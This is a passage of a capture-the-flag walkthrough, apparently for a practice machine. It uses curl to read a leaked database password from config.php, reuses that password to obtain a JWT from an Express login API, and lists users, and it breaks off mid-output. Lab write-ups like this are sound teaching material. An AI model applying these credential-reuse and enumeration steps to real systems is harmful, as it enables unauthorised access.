 Next, try to enumerate HTTP.<br>
In "config.php" on port 80, we can find a credential for DB.
{% highlight shell %}
root@kali:~# curl http://10.10.10.137/config.php
$dbHost = 'localhost';
$dbUsername = 'root';
$dbPassword  = 'Zk6heYCyv6ZE9Xcg';
$db = "login";

$conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error);
{% endhighlight %}

Then, try to look for the place which we can use following credential.
{% highlight shell %}
root:Zk6heYCyv6ZE9Xcg
{% endhighlight %}

On port 3000, express is running and we have an API for login possibly.
{% highlight shell %}
root@kali:~# curl http://10.10.10.137:3000/Login
"please auth"
{% endhighlight %}
{% highlight shell %}
root@kali:~# curl http://10.10.10.137:3000
{"success":false,"message":"Auth token is not supplied"}
{% endhighlight %}

By googling the error message, we can immediately find following  article.<br>
<a href="https://medium.com/dev-bits/a-guide-for-adding-jwt-token-based-authentication-to-your-single-page-nodejs-applications-c403f7cf04if4">A guide for adding JWT token-based authentication to your single page Node.js applications</a><br>
<br>
Sounds we can use the credential with following way to get a JSON token.<br>.
{% highlight shell %}
root@kali:~# curl -X POST http://10.10.10.137:3000/login -d 'username=admin&password=Zk6heYCyv6ZE9Xcg';

{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg"}
{% endhighlight %}

We can access to other path like following.
{% highlight shell %}
root@kali:~# curl http://10.10.10.137:3000 -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg'

{"message":"Welcome admin ! "}
{% endhighlight %}

"/user" returns a list of users.
{% highlight shell %}
root@kali:~# sudo apt-get install jq
{% endhighlight %}
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.137:3000/users -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg' | jq
[
  {
    "ID": "1",
    "name": "Admin",
    "Role": "Superuser"
  },
  {